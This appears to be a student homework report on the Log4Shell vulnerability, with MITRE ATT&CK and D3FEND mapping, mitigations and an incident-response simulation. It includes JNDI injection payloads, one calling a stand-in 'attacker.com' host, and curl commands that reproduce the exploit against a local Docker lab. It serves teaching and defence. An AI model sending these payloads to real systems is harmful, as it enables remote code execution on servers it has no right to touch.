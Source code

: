 
# SEAS-8405—Homework 9—Summary Report

This report reviews the recent Log4Shell zero-day vulnerability and attempts to simulate the vulnerability. 
Furthermore, the report will include a security analysis with threat modeling using MITRE ATT&CK mapping and MITRE DEFEND
to help identify effective mitigation controls. In addition, the report will present the architecture used to
demonstrate the vulnerability and later to validate the controls. Finally, the report will reflect on the event response process 
and lessons learned.

## 1. Log4Shell Vulnerability Explained
The Log4Shell vulnerability was identified as a zero-day vulnerability in certain versions of the Apache Log4j library, 
enabling remote code execution or RCE. The vulnerability exploits a Log4Shell feature called Message Lookups, allowing 
requests with embedded content like \${jndi:ldap://attacker.com/a} within log messages to be executed and calling an attacker-controlled server. 
This malicious server could respond with a reference to a remote Java class, which the vulnerable application's JVM downloads and executes, 
granting the attacker control over the system.

## 2. The architecture

![homework9.drawio.png](homework9.drawio.png)

The architecture to help demonstrate the vulnerability is a relatively simple Spring Boot application, deployed in a Docker container.
To help simulate the call to an attacker-controlled server, a simple LDAP server was configured outside the Docker container. Calling the
vulnerable application with the JNDI script embedded in the request resulted in the attacker's LDAP server to be called.

## MITRE ATT&CK
MITRE ATT&CK is a knowledge base of adversary tactics and techniques based on real-world observations (TTP). 
It describes actions a malicious user might perform during a cyberattack. Mapping the vulnerabilities presented by
the Log4Shell zero-day vulnerability to TTPs provides specific control measures to implement to help mitigate vulnerabilities.

## MITRE ATT&CK Mapping

| Tactic               | Techniques (Examples)                                                                                | Relevance                                                                                                                             |
|----------------------|------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| Initial Access       | T1190 (Exploit Public-Facing Application)                                                            | Exploiting vulnerabilities in Log4Shell's JNDI invocation.                                                                            |
| Execution            | T1059 (Command and Scripting Interpreter)                                                            | Malicious users exploiting the Log4Shell vulnerability by embedding a JNDI string, resulting in a call to the attackers LDAP service. |
| Persistence| T1078 (Valid Accounts)                                                                               | Call to malicious LDAP server might result in modifying existing user accounts, helping to establish persistence.                     |
| Privilege Escalation | T1068 (Exploitation for Privilege Escalation)                                                        | Gaining higher-level permissions or authorizations by modifying accounts.                                                             |
| Discovery            | T1082 (System Information Discovery), T1087 (Account Discovery), T1069 (Permission Groups Discovery) | Gaining knowledge about the system and network.                                                                                       |
| Lateral Movement | T1021 (Remote Services)                                                                              | Using other services like SSH to move laterally.|
| Impact| T1486 (Data Encrypted for Impact (Ransomware))                                                       | Encrypting data for ransom.|

## MITRE DEFEND
Using the MITRE DEFEND frameworks, several attack and defense actions were identified related to the Log4Shell 
zero-day vulnerability.

![log4shell.png](log4shell.png)

## 3. Mitigation and response summary
Multiple mitigation controls were identified using the MITRE DEFEND process, as seen above. Given the severity of the vulnerability
and the urgency to mitigate the issue, two defense actions will be discussed in detail and implemented in this exercise. The first
control is to patch/upgrade the version of Log4J that had this vulnerability already mitigated. By upgrading Log4J from version 2.14 to
2.17 we've remediated the vulnerability of malicious users embedding JNDI strings, resulting in a call to an attacker-controlled server.
The second control implemented was Content Filtering, filtering log statements for malicious scripts embedded in them. When a malicious
pattern is recognized, we prevent the script from being handed to the Log4J library and executed.

## 4. Reflection on the incident response, lessons learned
Log4J has been a very popular and common open-source library used widely. Yet, even widely used components could foster critical exploitable
vulnerabilities and should not be overlooked.

One of the most important Defense in Depth lessons is to have a layered security posture. Applications are bound to have multiple 
vulnerabilities that a single control will not remediate. Vulnerabilities exist in code and configurations alike. Default configurations 
should be understood, vetted, and modified if necessary, along with limiting the attack surface by using only required components with least privileged access. 
Implementing a Secure Software Development Life Cycle or SSDLC is paramount in identifying vulnerabilities early and often. Patch even trusted components
as soon as possible to make sure no known vulnerability is exploitable.

## 5. Appendix

### 5.1 Specific commands executed during the exercise
#### 1. Steps to reproduce Log4Shell zero-day vulnerability
1. Run docker compose up --build
2. Run python simple_ldap_server.py
3. Validate LDAP server by running: ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=org" "(cn=bob)"
4. Run curl -X POST -H 'Content-Type: text/plain' --data-raw '\${jndi:ldap://host.docker.internal:389/a}' http://localhost:8080/log
5. See JNDI call to LDAP server due to Log4Shell vulnerability.

#### 2. Steps to attempt to reproduce after mitigation controls
1. Run docker compose up --build
2. Run python simple_ldap_server.py
3. Validate LDAP server by running: ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=org" "(cn=bob)"
4. Run curl -X POST -H 'Content-Type: text/plain' --data-raw '\${jndi:ldap://host.docker.internal:389/a}' http://localhost:8080/log
5. See the "Invalid input detected!" message.
6. Run a benign command: curl -X POST http://localhost:8080/log -d 'Hello, world!'
7. See Logged: Hello%2C+world%21=%

#### 3. Simulating the incident response
1. Detect incident by checking the Docker logs for "${jndi:" request fragment. 
    - Execute "docker compose logs app"
2. Contain the incident by stoping the vulnerable container
    - Execute "docker compose down"
3. Eradicate: Confirm that no malicious processes are running.
    - Execute "docker ps -a"
4. Recover by deploying the patched application
    - Run "docker compose up --build"
5. Explanation:
    - Detect: Identified the attack via logs.
    - Contain: Isolated the system by stopping the container.
    - Eradicate: Ensured no residual threats.
    - Recover: Restored a secure version.